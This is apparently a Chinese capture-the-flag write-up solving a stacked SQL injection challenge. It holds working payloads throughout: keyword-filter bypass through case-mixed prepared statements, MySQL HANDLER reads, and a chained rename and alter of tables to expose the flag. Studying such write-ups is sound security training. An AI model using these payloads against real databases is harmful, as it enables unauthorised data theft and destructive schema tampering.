





## flag

（每一次的flag都不同）

## 思路

1. 对于这类直观的SQL注入题目，可以直接输入几组数据进行测试。输入1，会正常显示查询结果。

   接下来就判断是字符型注入还是数字型注入。

   一般数字型注入：

   ​	`select * from *** where id=num`

   - 2-1  --》 正常显示输入1时的结果
   - 1 and 1=1和1 and 1=2 两次结果不同

   字符型注入：

      `select * from *** where id ='num'`

   - 1' and '1'='1  和1' and '1'='2 结果不同
   - 1' and '1'='1' --+ 和 1' and '1'='2' --+ 结果不同



2. 本题输入1' and '1'='1，显示结果和直接输入1一致。

   

   再输入1' and '1'='2，无任何结果显示。说明存在sql字符型注入。

   

   3. 确定字符型注入之后，判断列数 1' order by 1/2/3--+

      order by 3时页面显示不正常，说明只存在两列。

      另一种判断列数方法，1' union select 1,2,3(....) --+

   4. 尝试union select语句时，页面直接显示：

      

      说明waf将select、update、delete、drop、insert和where等关键字过滤。

   5. 考虑堆叠注入，利用;闭合前面语句的执行，再加上需要执行的语句，且以上常见的关键字都被过滤掉了

      --》可以使用`show databases/tables/columns from table`来获取数据库、数据表和列名。

   6. 获取数据库相关信息   

      `1';show databases;--+`

      获取当前数据库中的表信息

      `1';show tables;--+`

      

      获取表中的列信息

      `1';show columns from words;--+`

      
   
      `1';show columns from 1919810931114514;--+` (当数据表名为数字时，需要使用``括起来)
   
      
   
   7. 可以从两个的列信息中看出，words中主要是id和data两列，有可能在输入框中输入数字时，后端读取的就是该表中的内容；另一个表中有flag列，说明flag可能存在于该表中。
   
   8. 因此，要想获取flag，则有两种思路：
   
      1. 直接从flag列中读取
         1. 绕过select过滤
         2. handler语句
      2. 将表1919810931114514添加一列id，并改名成flag（让前端传数据到后端后，后端实际操作的是该表，就可以直接将表中的数据读出来）
   
   9. 难点1：直接从flag表中读数据--》select被过滤
   
      **绕过select过滤方法：**
   
      - 大小写绕过、添加/**/绕过（但此处preg_match中的正则表达式最后为/i，说明在匹配时不区分大小写，故此方法无用）
   
      - 使用预处理语句
   
        预处理的流程包含：
   
        > ```sql
        > SET @**;								# 用于设置变量名和值
        > PREPARE stmt_name FROM preparable_stmt;	# 用于预备一个语句，并赋予名称，以后可以引用该语句
        > EXECUTE stmt_name;			 			# 执行语句
        > {DEALLOCATE | DROP} PREPARE stmt_name;	# 用来释放掉预处理的语句
        > ```
   
      ​        对于本题构造的预处理语句如下：
   
      ```sql
      1';SEt @a=concat("SEl","ect flag from `1919810931114514`");PRepare hello from @a;execute hello;#
      ```
   
      说明：预处理语句中set和prepare均使用大小写混用，因为页面提示输出以下内容。
   
      ```
      [OUTPUT]: strstr($inject, "set") && strstr($inject, "prepare")
      ```
   
      ​    strstr()函数对大小写敏感，所以可以使用大写绕过。
   
   10. 直接使用handler语句
   
       mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。
   
       > ```sql
       > HANDLER tbl_name OPEN [ [AS] alias]
       > # 打开一张表，无返回结果，实际上声明了一个名为tb1_name的句柄。
       > HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
       >     [ WHERE where_condition ] [LIMIT ... ]
       > HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
       >     [ WHERE where_condition ] [LIMIT ... ]
       > HANDLER tbl_name READ { FIRST | NEXT }
       >     [ WHERE where_condition ] [LIMIT ... ]
       > # 获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。
       > HANDLER tbl_name CLOSE
       > # 关闭打开的句柄。
       > ```
   
       ```sql
       
       1';
       handler `1919810931114514` open;
       handler `1919810931114514` read first;-- +
       ```
   
       
   
   11. 难点2：“换个名”（考察对sql操作熟练程度）
   
       根据前文的分析，可以看出在输入框中输入数字1、2等之后，后端接收数字之后在words数据表中查询内容显示，而根据前面已经查询已经得出表words和表1919810931114514的列信息，因此可以尝试（换个名），将表1919810931114514的表结构改成和words一样，即增加一个id列，且将表名改成words，即可直接通过在输入框中输入1，来获取flag值。
   
       步骤：
   
       - 表words改名：rename table words to new_word;
   
       - 表1919810931114514增加id列：alter table 1919810931114514 add id int unsigned not Null auto_increment primary key;
   
       - 修改表1919810931114514的flag列为data列名：alter table 1919810931114514 change flag data varchar(100);
   
       - 表1919810931114514改名：rename table `1919810931114514` to words;
   
         此时再直接向输入框中输入1，即可获取flag的内容。
   
       ```sql
       1';rename table words to temp;alter table `1919810931114514` add id int unsigned not Null auto_increment primary key;alter table `1919810931114514` change flag data varchar(100);rename table `1919810931114514` to words;#
       ```

## 总结

- 本题考察对sql注入各种类型的熟练程度，如果对每种sql注入类型都比较了解，则可以比较快的定位到使用堆叠注入。
- 因为select、update、delete、drop、insert和where这些关键字均被过滤掉，而且采用常见的大小写绕过、注释符绕过不行，所以常用的union注入走不通。
- 使用堆叠注入，就意味着可以正常构造一些sql进行执行，查询需要的数据。show database、tables、columns from table_name，即可获取数据库名、表名和列名。
- 两种绕过select过滤方法
  - **直接**  使用预处理语句或者handler语句（mysql特有）
  - **间接**  利用题目已有的条件，改表名和表结构
- 注意  当表名、字段名为数字时，需要用**反引号**来标识